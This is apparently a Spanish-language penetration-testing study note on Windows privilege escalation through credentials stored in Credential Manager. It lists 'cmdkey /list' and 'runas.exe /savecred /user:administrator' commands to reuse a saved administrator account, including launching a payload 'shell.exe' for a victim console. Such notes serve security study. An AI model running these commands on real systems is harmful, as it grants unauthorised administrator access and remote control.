 Es posible que el windows credential manager sea accesible por usuarios de bajos privilegios con lo que nos de acceso a las contraseñas del sistemas almacenadas ahí.

Se puede interactuar mediante el cmdkey que es un comando de windows que nos permite manejar las credenciales almacenadas.

Para comprobar los privilegios del usuario actual podemos hacer

```Powershell
whoami /priv
```

No es necesario tener privs elevados si es el sistema es vulnerable.

```powershell
#Listar las cuentas guardadas (importante el domain-password)
cmdkey /list
```

![[Pasted image 20250217091510.png]]

```powershell
#Como el cmdkey tiene guardada la cuenta de administrator podemos utilizarla para diversos comandos.
runas.exe /savecred /user:administrator cmd

#También podemos ejecutar un payload con hta_server y la consola de la máquina y victima y posteriormente upgradearla con un
runas.exe /savecred /user:administrator shell.exe
```


